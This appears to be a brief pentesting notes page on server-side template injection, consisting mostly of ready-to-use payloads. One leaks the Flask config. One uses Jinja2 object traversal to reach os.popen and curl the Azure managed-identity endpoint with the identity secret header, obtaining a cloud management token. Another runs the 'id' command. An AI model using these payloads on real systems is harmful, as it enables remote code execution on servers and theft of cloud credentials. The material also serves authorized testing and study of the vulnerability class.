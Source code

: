 # Server side Template injection

### # Workflow

* Template must be determined using the following workflow

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* A good payload can also be used, such as&#x20;

```powershell
{{config.items()}}
```

### Example

#### Flask application

* payloads examples

```
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
```

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
